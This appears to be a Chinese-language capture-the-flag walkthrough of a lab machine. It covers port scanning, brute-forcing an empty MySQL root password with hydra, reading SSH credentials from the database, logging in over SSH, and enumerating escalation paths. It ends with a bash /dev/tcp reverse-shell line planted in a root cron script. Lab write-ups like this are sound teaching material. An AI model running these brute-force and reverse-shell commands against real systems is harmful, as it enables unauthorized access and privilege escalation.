### 信息收集

```
nmap -p- --min-rate 10000 192.168.174.150
```

分别进行详细的tcp扫描，漏洞扫描以及udp扫描





只有22，80，3306端口

#### 80端口

gobuster爆破出的目录没有用

/info.php和/icons/两个目录

其中info.php



没有可利用的信息

#### 22端口

- 放个爆破目录自己玩去吧

#### 3306端口

对应的是mysql数据库，服务版本是MariaDB 5.5.60



对应的已知漏洞都是和提权相关的，但我们目前的任务是先拿到shell作为立足点

在漏洞扫描中，注意到3306端口有许多mysql密码的猜测值，就先尝试进行爆破，默认用户为root

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.174.150 mysql -vV
```

- hydra的一些参数

- l：指定用户
- L：用户词典
- p：指定密码
- P：密码词典
- -vV：输出详细信息，（爆破的用户密码过程）



没有显示密码，那就是空密码

```
mysql -h 192.168.174.150 -uroot -p --skip-ssl
```

其中关于最后面的参数问题，与mysql的版本有关，一般都要绕过ssl

- 方案一（已过时）：
  mysql -h10.233.117.225 -P3306 -uroot -p --skip-ssl
- 方案二（推荐）：
  mysql -h10.233.117.225 -P3306 -uroot -p --ssl-mode=DISABLED

DISABLED 与参数skip-ssl一样，不使用SSL/TLS建立加密连接
PREFERRED 优先尝试使用SSL/TLS建立加密连接，如果无法建立则尝试建立非SSL/TLS连接
REQUIRED 只会尝试使用SSL/TLS建立加密连接
VERIFY_CA 与REQUIRED行为一样，与此同时会验证server 端的证书是否有效
VERIFY_IDENTITY 与VERIFY_CA行为一样，与此同时验证server端证书的host是否与实际连接的hostname一致

- 尝试后感觉mysql的版本比较老，也就i是第一种可以使用

成功登录

```
show databases;
```



```
use ssh
show tables;
```



```
select * from users;
```



### ssh登录

```
ssh mistic@192.168.174.150
```



按顺序进行信息收集

- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -writable -type f 2>/dev/null | grep -v proc | grep -v sys
- cat /etc/crontab
- /usr/sbin/getcap -r / 2>/dev/null



可以看到/usr/bin/crontab有suid权限,但这个好像和/etc/crontab有点区别

```
cat /etc/crontab
```



可以看到每3分钟会以root权限运行一次logrot.sh文件,这个文件又是我们有的



我们有rwx权限

直接

```
echo 'bash -i >& /dev/tcp/192.168.174.150/4444 0>&1'
```



成功拿到权限

（这里有一个小问题，在第一次到这个步骤的时候，反弹shell是正确的，还多输入了一个#!/bin/sh，结果就是一直无法提权，还以为是这个的问题，尝试更改成#!/bin/bash，又成功提权，后续不论是/sh，还是/bash，还是不输入这一行，都可以提权）